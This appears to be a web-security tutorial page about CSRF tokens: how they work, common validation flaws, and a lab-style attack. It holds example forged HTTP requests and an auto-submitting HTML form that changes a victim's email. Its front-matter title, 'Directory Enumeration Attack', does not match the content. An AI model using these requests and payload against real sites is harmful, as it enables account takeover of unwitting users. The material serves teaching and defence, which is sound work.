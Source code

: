 ```yaml
---
layout: page
title: Directory Enumeration Attack
parent: Web Application
grand_parent: Attacks
---
```

# {{ page.title }}
{: .no_toc }

<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
- TOC
{:toc}
</details>

---
A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client. When issuing a request to perform a sensitive action, such as submitting a form, the client must include the correct CSRF token.

A common way to share CSRF tokens with the client is to include them as a hidden parameter in a HTML form, for example:

```HTML
<form name="change-email-form" action="/my-account/change-email" method="POST">
	<label>Email</label>
	<input required type="email" name="email" value="example@normal-website.com">
	<input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u"> 
	<button class='button' type='submit'> Update email </button>
</form>
```
> Some applications place CSRF tokens in HTTP headers, the way the tokens are transmitted have significant impact on the security mechanism as a whole. More info, [How to prevent CSRF vulnerabilities](https://portswigger.net/web-security/csrf/preventing).

When implemented correctly, CSRF Tokens help protect against CSRF attacks by making it difficult for an attacker to construct a valid request on behalf of a victim. 

## Common flaws in CSRF token validation
CSRF vulnerabilities typically arise due to flawed validation of CSRF tokens.

### Validation depends on request method
Some applications validate the token when a POST method is used but skip validation when a GET method is used.
The attacker can switch to the GET method to bypass the validation and deliver a CSRF attack:
```HTTP
GET /email/change?email=pwned@evil-user.net HTTP/1.1 
Host: vulnerable-website.com Cookie: 

session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

### Validation depends on token being present
Some applications only validate if a token is present but skip validation if no token is supplied

```HTTP
POST /email/change HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 25 
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm 

email=pwned@evil-user.net
```

### CSRF token is not tied to the user session
Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.

In this situation, the attacker can log in to the application using their own account, obtain a valid token, and then feed that token to the victim user in their CSRF attack.

### CSRF token is tied to a non-session cookie
In a variation on the preceding vulnerability, some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks, one for session handling and one for CSRF protection, which are not integrated together:

```HTTP
POST /email/change HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 68 
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv 

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

This situation is harder to exploit but is still vulnerable. If the web site contains any behaviour that allows an attacker to set a cookie in a victim's browser, then an attack is possible. The attacker can log in to the application using their own account, obtain a valid token and associated cookie, leverage the cookie-setting behaviour to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack.

> The cookie-setting behaviour does not even need to exist within the same web application as the [CSRF vulnerability](https://portswigger.net/web-security/csrf). Any other application within the same overall DNS domain can potentially be leveraged to set cookies in the application that is being targeted, if the cookie that is controlled has suitable scope. For example, a cookie-setting function on `staging.demo.normal-website.com` could be leveraged to place a cookie that is submitted to `secure.normal-website.com`.

### CSRF token is simply duplicated in a cookie
In a further variation on the preceding vulnerability, some applications do not maintain any server-side record of tokens that have been issued, but instead duplicate each token within a cookie and a request parameter. When the subsequent request is validated, the application simply verifies that the token submitted in the request parameter matches the value submitted in the cookie. This is sometimes called the "double submit" defence against CSRF, and is advocated because it is simple to implement and avoids the need for any server-side state:

```HTTP
POST /email/change HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 68 
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa 

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

In this situation, the attacker can again perform a CSRF attack if the web site contains any cookie setting functionality. Here, the attacker doesn't need to obtain a valid token of their own. They simply invent a token (perhaps in the required format, if that is being checked), leverage the cookie-setting behaviour to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack.

---

## Executing a CSRF attack

### CSRF vulnerability with no defences
Created a webpage that submitted a form as a POST request that contained a secret input with the vulnerable field to the endpoint of a change-email action. Then a link to this website was added in a comment so if a user clicked it, it would send the request and it would just use their previous session token that the browser remembers.

```HTML
<form method="POST" action="https://wwww.example.net/my-account/change-email">
	<input type="hidden" name="email" value="hacked@exploit.com">
</form>

<script>
	document.forms[0].submit();
</script>
```
